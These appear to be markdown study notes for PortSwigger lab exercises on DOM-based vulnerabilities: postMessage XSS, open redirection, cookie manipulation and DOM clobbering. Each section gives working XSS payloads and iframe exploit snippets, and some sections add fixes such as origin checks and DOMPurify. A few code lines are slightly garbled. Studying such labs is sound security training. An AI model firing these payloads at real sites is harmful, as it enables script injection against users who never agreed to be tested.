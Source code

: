 # DOM-based vulnerabilities

## Lab: DOM XSS using web messages


The code:

```
window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                            })

```

### What’s happening:

- The page listens for messages sent to it via postMessage or other frames/windows.

- Whatever e.data contains is directly inserted into the DOM via innerHTML without sanitization.

- If an attacker can send a crafted message to the page, they can inject arbitrary HTML/JS.

### Why it’s vulnerable
```
- innerHTML interprets input as HTML, so <script> or event handlers (like onerror) will execute.

- The developer has not validated origin (i.e., e.origin) or sanitized e.data.
```

### Attack Steps
- Identify the vulnerable listener:

  - Look for window.addEventListener('message', ...) in JS.

  - Check if the callback uses innerHTML or document.write with untrusted data.

- Verify there’s no origin check:
   ```
   if (e.origin !== "https://trusted-site.com") return;
   If missing → vulnerable.
   ```
- Craft a malicious message to exploit:
	```
	window.postMessage('<img src=x onerror=alert(1)>', '*');
    '*' sends to any origin.
    The payload uses an event handler (onerror) to trigger JavaScript.
  
    ```


### Real-World Exploit
- If you can open the target page in an iframe or another tab, you can inject:

```

<iframe src="https://victim.com"></iframe>
<script>
    // Wait until iframe loads, then send payload
    window.frames[0].postMessage('<img src=x onerror=alert(document.domain)>', '*');
</script>
```

```
<iframe src="https://vitim.com/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```


### Fix
- Validate origin:
```
if (e.origin !== "https://trusted-site.com") return;
```
- Sanitize data (e.g., DOMPurify) before inserting into the DOM:
```
document.getElementById('ads').innerHTML = DOMPurify.sanitize(e.data);
```

- Avoid using innerHTML unless necessary — use textContent for plain text.

<hr>

## Lab: DOM XSS using web messages and a JavaScript URL


Analysis :
 - Find : addEventListener
 - window.postMessage("javascript:alert(1);//https://abc.com","*")
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:bing.com','*')">
```


## Lab: DOM XSS using web messages and JSON.parse

Analysis : The SCRIPT
  - Find : addEventListener
```
//Testing Payload 
window.postMessage(
    JSON.stringify({
        type: "load-channel",
        url: "javascript:alert(document.domain)"
    }),
    "*"
);
```

```
<iframe src=https://0acd00030425513d807c034e00090016.web-security-academy.net/ onload='this.contentWindow.postMessage(`{"type":"load-channel","url":"javascript:print()"}`,"*")'>


<iframe src=https://vul.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

## Lab: DOM-based open redirection

Analysis :
```
<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```

  - The url parameter contains an open redirection vulnerability that allows you to change where the "Back to Blog"

payload : 

```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

<hr>

## Lab: DOM-based cookie manipulation

Analysis :  &'><script>alert(1)</script>
payload : 

```
<iframe src="https://target.web.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://target.web.net';window.x=1;">
```
<hr>

## Lab: Exploiting DOM clobbering to enable XSS

```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```


## 

Ananlysis :  

```
Paste this i<form id=x tabindex=0 onfocus=print()><input id=attributes>

Payload : 

       <iframe src=https://YOUR-LAB-ID.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">

```
